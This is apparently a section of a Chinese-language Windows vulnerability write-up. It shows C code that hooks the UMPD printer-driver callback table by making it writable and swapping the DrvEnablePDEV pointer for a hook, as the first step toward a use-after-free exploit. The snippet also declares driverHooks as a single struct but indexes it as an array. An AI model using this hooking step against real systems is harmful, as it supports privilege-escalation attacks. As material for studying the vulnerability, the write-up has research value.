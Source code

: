 
### 2.2 UMPD Callback hook

漏洞的关键在于 hook UMPD Callback Function 和 UAF，因此第一步是找到 UMPD Callback Function 并进行 Hook。

首先需要找到可用的打印机驱动并加载到内存中，也就是2.1节的测试代码。

通过 DrvEnableDriver 获取该驱动的用户模式回调表，并赋予可读写的权限：

```C
res = DrvEnableDriver(DDI_DRIVER_VERSION_NT4, sizeof(DRVENABLEDATA), &drvEnableData);
res = VirtualProtect(drvEnableData.pdrvfn, drvEnableData.c * sizeof(PFN), PAGE_READWRITE, &lpflOldProtect);

```


循环查找回调表找到 DrvEnablePDEV，保存原回调地址，覆盖为 hook 的函数地址：

```C
typedef struct _DriverHook
{
  ULONG index;
  FARPROC func;
} DriverHook;

DHPDEV hook_DrvEnablePDEV(DEVMODEW* pdm, LPWSTR pwszLogAddress, ULONG cPat, HSURF* phsurfPatterns, ULONG cjCaps, ULONG* pdevcaps, ULONG cjDevInfo, DEVINFO* pdi, HDEV hdev, LPWSTR pwszDeviceName, HANDLE hDriver);

DriverHook driverHooks = {INDEX_DrvEnablePDEV, (FARPROC)hook_DrvEnablePDEV };

------------------------------------------------------------------------------------------------------
      for (DWORD n = 0; n < drvEnableData.c; n++)
      {
        ULONG iFunc = drvEnableData.pdrvfn[n].iFunc;

        // Check if hook INDEX matches entry INDEX
        if (driverHooks[i].index == iFunc)
        {
          // Saved original function pointer
          globals::origDrvFuncs = (VoidFunc_t)drvEnableData.pdrvfn[n].pfn;
          // Overwrite function pointer with hook function pointer
          drvEnableData.pdrvfn[n].pfn = (PFN)driverHooks[i].func;
          break;
        }
      }
```


替换后恢复环境：

```C
DrvDisableDriver();
VirtualProtect(drvEnableData.pdrvfn, drvEnableData.c * sizeof(PFN), lpflOldProtect, &_lpflOldProtect);
```
